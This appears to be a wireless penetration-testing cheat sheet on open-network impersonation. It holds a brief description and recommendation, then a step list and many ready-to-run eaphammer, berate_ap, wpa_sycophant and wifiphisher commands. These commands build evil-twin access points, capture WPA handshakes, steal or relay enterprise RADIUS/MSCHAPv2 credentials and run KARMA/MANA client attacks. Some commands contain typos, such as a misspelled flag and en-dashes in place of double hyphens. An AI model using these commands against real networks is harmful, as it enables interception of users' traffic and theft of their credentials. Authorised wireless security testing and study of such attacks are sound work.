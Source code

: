 ### Open Network Impersonation (Client Attacks) - An attacker discovered an open network that is currently in use. Open networks pose a significant security risk due to their lack of integrity assurance. An attacker can impersonate the open network, luring users into the attacker's network. An attacker can also conduct a DoS attack against the corporate network, which will cause the targeted devices to seek out alternative networks to connect to, leading the victim devices to connect to the attacker's imposter network. A Rogue AP refers to an access point installed on a secure network without the explicit permission of a system administrator. Such devices can pose a severe security threat, as anyone accessing the premises may inadvertently or intentionally install a low-cost wireless AP, allowing unauthorized parties to access the network. 
Recommendation:
To compensate for the lack of Layer 2 security, organizations need to implement more robust defenses at the upper layers. One way to limit the SSIDs that client devices connect to is by utilizing Group Policy functions and forbidding the connection to the 'ANY' SSID. By doing so, end-users won't be able to connect to wireless networks that are not considered trustworthy. Educating users on the significance of confirming the identity of digital certificates before supplying sensitive information, ensuring that the root or issuing authority for the digital certificate is trusted.

Process:
    1. Check whether SSID is Visible or not
    2. Sniff for IP range if SSID is visible then check the status of MAC Filtering.
    3. If MAC filtering is enabled then spoof the MAC Address by using tools such as SMAC
    4. Try to connect to AP using IP within the discovered range.
    5. If SSID is hidden then discover the SSID using Aircrack-ng and follow the procedure of visible SSID which I Declared above."

# Basic Open Hotspot - 
    $ berate_ap  <interface_AP> <interface_internet> <SSID>
# Open Network Evil Twin - Could use the following tools: airgeddon.sh, fluxion.sh, wifipumpkin3
    $ eaphammer -i wlan0 --channel <channel_number> --auth open --essid <SSID>

# WPA/WPA2-Personal Evil Twin - 
   # WPA Passphrase Known: 
        $ eaphammer -i wlan0 --channel <channel_number> --auth wpa-psk \ --essid <SSID> --wpa-passphrase <passphrase> 
   # WPA Passphrase Unknown:  
        # 1. Spawn Open Network Evil Twin instead to attack clients (e.g. Phishing attack to retrieve Passphrase) 
        # 2. Capture WPA (half) Handshake of connecting clients & Cracking - 
            $ eaphammer -i wlan0 --channel <channel_number> --auth wpa-psk \ --essid <SSID> --wpa-passphrase randompassphrase --capture-wpa-handhshake

# WPA/WPA2-Enterprise Evil Twin -
   # RADIUS Credentials Unknown:
       # RADIUS Credentials Stealing
            $ eaphammer --cert-wizard
            $ eaphammer -i wlan0 --channel --auth wpa-eap \ --essid <SSID> --creds
        # Possible if: - EAP method does not use client-certificate for client authentication - Server certificate validation not enforced on client
        
       # EAP (MSCHAPv2) Relay
            $ berate_ap --eap --mana-wpe --wpa-sycophant --mana-credout <file_captured_creds>\ <interface_AP> <interface_internet> <SSID>
            $ wpa_sycophant.sh -c wpa_sycophant_example.conf -i <interface>
        # Possible if: - Target network uses EAP method with MSCHAPv2 for client authentication - Server certificate validation not enforced on client

   # RADIUS Credentials Known:
      $ ehdb --add --identity <username> --password <password> # Add credentials in db
      $ ehdb --add --identity <username> --nt-hash <ntlm_hash> # Add creds with NTLM hash in db
      $ eaphammer -i wlan0 --channel <channel_number> --auth wpa-eap \ --essid <SSID_corporate_wifi>

# 802.11 Network Selection Algorithms Abuse (for Open Network) -
    # Abuse clients' passive scanning with known Beacons Attack:
      $ eaphammer -i wlan0 --channel <channel_number> --auth open --essid <SSID> --mana –known-beacons

    # Abuse clients' active probing:
      # KARMA Attack (outdated) By default with wifiphisher
        $ sudo wifiphisher
      # MANA Attack (KARMA improvement)
        $ eaphammer -i wlan0 --channel <channel_number> --auth open --essid <SSID> --mana
      # Loud MANA (MANA Improvement) 
        $ eaphammer -i wlan0 --channel <channel_number> --auth open --essid <SSID> --mana –loud

